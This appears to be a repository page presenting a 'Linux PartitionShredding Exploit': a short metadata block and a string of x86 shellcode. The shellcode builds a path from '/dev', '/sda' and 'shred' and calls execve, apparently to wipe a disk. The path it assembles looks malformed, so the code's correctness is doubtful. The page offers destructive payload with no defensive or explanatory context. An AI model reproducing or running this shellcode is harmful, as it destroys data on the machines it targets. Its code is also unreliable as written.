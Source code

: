# ALNX-1003-SDASHR
Linux PartitionShredding Exploit

```yaml
TargetOS: Linux
TestedOn: Kali linux 2020.2a i386 x86
Payload: ASM>SH<=>N/A
Language: C++ / Shellcode-Hex / Assembly
Patch: n/a
Danger: Godzilla
Classification: ALNX-1003-SDASHR
SByte-Boom: 35
```

**_Build_**
```hex
\x31\xc0\x50\x66\x68\x65\x64\x68\x2f\x73\x68\x72\x68\x2f\x73\x64\x61\x68\x2f\x64\x65\x76\x89\xe3\x50\x55\x57\x56\x53\x89\xe1\xb0\x0b\xcd\x80
```
